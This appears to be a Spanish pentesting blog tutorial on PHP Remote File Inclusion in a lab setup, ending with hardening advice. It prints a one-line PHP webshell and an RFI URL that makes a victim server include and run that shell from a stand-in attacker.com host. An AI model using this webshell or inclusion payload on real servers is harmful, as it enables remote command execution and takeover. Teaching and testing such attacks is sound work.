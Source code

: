 ```yaml
---
title: Remote File Inclusion (RFI)
published: 2025-02-24
description: "Uso de ssh para pivotar en la red."
image: "./portada.png"
tags: ["RFI", "Web", "Pentesting"]
category: Web
draft: false
---
```



## Índice
- [Introducción](#Introducción)
- [Entorno de pruebas](#Entorno-de-pruebas)
- [Conclusión](#Conclusión)

## Introducción
El **Remote File Inclusion (RFI)** es una vulnerabilidad que permite a un atacante incluir archivos remotos en un servidor vulnerable. A diferencia del Local File Inclusion (LFI), que solo carga archivos locales, el RFI permite ejecutar código alojado en otra web.

Esto es peligroso porque un atacante puede alojar un archivo malicioso en su propio servidor y usar la vulnerabilidad para ejecutarlo en la máquina víctima. Esto puede llevar a la toma de control del sistema, robo de datos o la instalación de malware.

En este caso alojaremos una WebShell como POC.

## Entorno de pruebas
- 2 Equipos:
    - **Máquina atacante**: Kali Linux => 192.168.1.20
    - **Máquina servidor WEB**: Ubuntu  => 192.168.1.30

![img0](../../../assets/images/remote-file-inclusion-rfi-web/entorno.png)

Para poder lograr explotar esta vulnerabilidad, deberemos crear un archivo PHP que permita la inclusión de archivos:

![img1](../../../assets/images/remote-file-inclusion-rfi-web/portada.png)

Este código básico permite que el servidor reciba un valor mediante una solicitud GET a través del parámetro file e incluya el archivo correspondiente en la página.

Con esta sencilla configuración, ya tenemos un **Local File Inclusion (LFI)** funcional.
Servidor WEB
```
php -S 192.168.1.30:80
```
![img1](../../../assets/images/remote-file-inclusion-rfi-web/phpserv1.png)

Kali Linux
```
http://192.168.1.30/?file=flag.txt
```
![img2](../../../assets/images/remote-file-inclusion-rfi-web/lfi.png)

Para lograr un **Remote File Inclusion (RFI)** y poder subir un archivo al servidor de forma remota, es necesario modificar la configuración de PHP en el archivo ``php.ini``. En particular, hay que habilitar la opción que permite la inclusión de archivos desde URLs remotas.

Dentro de este archivo, tenemos que buscar la variable allow_url_include:

![img3](../../../assets/images/remote-file-inclusion-rfi-web/include.png)

Una vez que se ha habilitado la **inclusión remota de archivos (RFI)** y se ha configurado adecuadamente el archivo ``php.ini``, el siguiente paso es intentar llamar nuestra webshell para poder lanzar comandos remotamente.

1. Crear un servidor HTTP en la máquina atacante para alojar la Webshell.
```php
<?php system($_GET['cmd']); ?>
```
![img4](../../../assets/images/remote-file-inclusion-rfi-web/python3.png)

Este código PHP permite ejecutar comandos del sistema que se pasan como parámetros en la URL. Por ejemplo, si visitamos ``http://attacker.com/shell.php?cmd=ls``, el servidor devolverá el resultado del comando ls ejecutado en la máquina atacante.

2. Llamar a la Webshell alojada en nuestra máquina atacante.
   
Una vez que la webshell está cargada en el servidor atacante, el siguiente paso es aprovechar la vulnerabilidad Remote File Inclusion (RFI) en el servidor víctima. Si el servidor víctima permite incluir archivos desde URLs remotas, podemos incluir la webshell alojada en nuestra máquina atacante.

La URL para incluir la webshell en el servidor víctima podría verse algo así:
``
http://victimsite.com/index.php?file=http://attacker.com/shell.php&cmd=id
``

![img5](../../../assets/images/remote-file-inclusion-rfi-web/rcc.png)
   
Estamos ejecutando comandos localmente usando un archivo remoto. Esto es básicamente un Remote File Inclusion.

## Conclusión


El **Remote File Inclusion (RFI)** es una vulnerabilidad crítica que permite a los atacantes ejecutar código remoto en un servidor vulnerable, comprometiendo gravemente la seguridad del sistema. A través de la inclusión de archivos externos, un atacante puede ejecutar comandos arbitrarios, acceder a información sensible o incluso tomar control completo del servidor afectado.

En este post, hemos demostrado cómo un atacante puede aprovechar esta vulnerabilidad para cargar y ejecutar una **webshell** remotamente, utilizando una configuración incorrecta de PHP. Al habilitar opciones como `allow_url_include` y manipular el parámetro `file`, el atacante puede hacer que el servidor incluya un archivo desde un servidor controlado por él y ejecutar comandos del sistema.

Es fundamental que los administradores de sistemas mantengan configuraciones seguras, validen entradas de usuario adecuadamente y desactiven opciones inseguras como la inclusión remota de archivos. La prevención de ataques RFI es crucial para proteger los servidores de ataques externos que pueden tener consecuencias devastadoras.

![img6](../../../assets/images/remote-file-inclusion-rfi-web/rig.png)
